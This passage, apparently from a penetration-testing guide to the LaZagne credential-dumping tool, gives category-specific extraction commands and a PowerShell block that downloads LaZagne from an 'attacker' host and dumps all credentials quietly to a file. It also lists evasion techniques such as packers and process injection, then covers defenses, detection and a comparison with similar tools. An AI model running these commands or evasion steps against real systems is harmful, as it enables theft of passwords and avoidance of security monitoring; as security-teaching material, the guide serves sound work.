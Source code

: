 #### Specific Categories
```cmd
# Only extract browser and email passwords
LaZagne.exe browsers mails

# Only system-level credentials
LaZagne.exe sysadmin memory
```

#### Remote Deployment
```powershell
# PowerShell download and execute
$url = "http://attacker:8000/LaZagne.exe"
$output = "C:\temp\lazagne.exe"
Invoke-WebRequest -Uri $url -OutFile $output
& $output all -quiet -oN C:\temp\creds.txt
```

### Detection and Evasion

#### Common Detections
- **Antivirus signatures** - LaZagne often flagged as malicious
- **Behavioral analysis** - Multiple password extraction attempts
- **Process monitoring** - Unusual file access patterns

#### Evasion Techniques
```bash
# Compile from source with modifications
# Use custom packer/crypter
# Deploy through legitimate file transfer
# Use process hollowing/injection
```

### Defense Against LaZagne

#### Preventive Measures
- **Don't save passwords** in browsers/applications
- **Use password managers** with strong encryption
- **Enable Credential Guard** on Windows 10/11
- **Regular security awareness training**

#### Detection Methods
- **Monitor for LaZagne signatures** in AV/EDR
- **Process monitoring** for credential access patterns
- **File integrity monitoring** for credential stores
- **Network monitoring** for C2 traffic

### LaZagne vs Other Tools

| Tool | Platform | Coverage | Stealth | Ease of Use |
|------|----------|----------|---------|-------------|
| **LaZagne** | Multi | High | Low | High |
| **Mimikatz** | Windows | High | Low | Medium |
| **SharpChrome** | Windows | Chrome only | Medium | Medium |
| **HackBrowserData** | Multi | Browsers only | Medium | High |
